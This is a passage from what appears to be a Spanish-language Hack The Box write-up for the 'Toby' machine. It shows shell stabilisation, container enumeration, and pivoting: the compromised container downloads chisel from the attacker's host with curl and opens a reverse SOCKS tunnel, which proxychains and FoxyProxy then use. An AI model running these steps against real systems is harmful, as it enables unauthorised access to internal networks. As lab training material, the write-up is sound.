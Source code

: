 Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 20 columns 169
```

DOCKER

```s
ps -faux

#Nombres de dominio
hostname

#Lista puertos en hexadecimal
cat proc/net/tcp

dig mysql.toby.htb
```

En este punto vamos a usar una herramienta llamada <a href="https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz">chisel</a> para hacer el port forwarding con el contenedor que tenemos enfrente y esta permitido para usarlo en el OSCP.

Asi que lo primero seria descomprimirlo, luego quitarle peso con upx y abrir nuestro servidor http con python para descargarlo del otro lado. 

Y al final desde el contenedor ejecutamos:

```s
curl http://10.10.14.29/chisel_1.7.7_linux_amd64 > chisel
#Le damos permisos
chmod +x chisel

./chisel client 10.10.14.29:1234 R:socks
```

Del lado de la atacante

```s
./chisel server --reverse -p 1234
```

Una vez establecida la comunicacion, hacemos una modificacion en el archivo /etc/proxychains.conf
Agregamos la siguiente linea:

```s
socks5 127.0.0.1 1080
```

Y ahora configuramos el foxyproxy con socks5, puerto 127.0.0.1 y puerto 1080 para poder llegar a estas maquinas desde el navegador.
